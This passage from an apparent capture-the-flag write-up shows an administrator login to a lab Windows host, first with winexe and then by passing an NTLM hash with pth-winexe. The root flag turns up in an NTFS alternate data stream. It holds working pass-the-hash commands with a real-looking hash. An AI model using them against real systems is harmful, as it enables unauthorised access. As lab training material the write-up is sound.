```bash
/usr/bin/winexe -U jenkins\administrator //10.129.45.32 cmd.exe
```
Password for [WORKGROUP\jenkinsadministrator]: <pass>

It did not work. Let's try PASS the NTLM Hash
```bash
pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd.exe

## or try
/usr/bin/pth-winexe -U jenkins/administrator //10.129.45.32 cmd.exe
```
![](images/2025-02-09_10.png)


Upon accessing the Administrator desktop, a file named `**hm.txt**` was discovered and initially assumed it contained the root flag. However, after opening it, realized that was not the case. The file itself hinted to dig deeper.

### 4.5 Root Flag via Alternate Data Stream (ADS)
On the Administrator's desktop, a file named `hm.txt` was empty. Knowing that Windows NTFS supports Alternate Data Streams (ADS) for hiding data, I used `dir /r` to discover a hidden stream named `root.txt`.

```bash
C:\Users\Administrator\Desktop>dir /r
```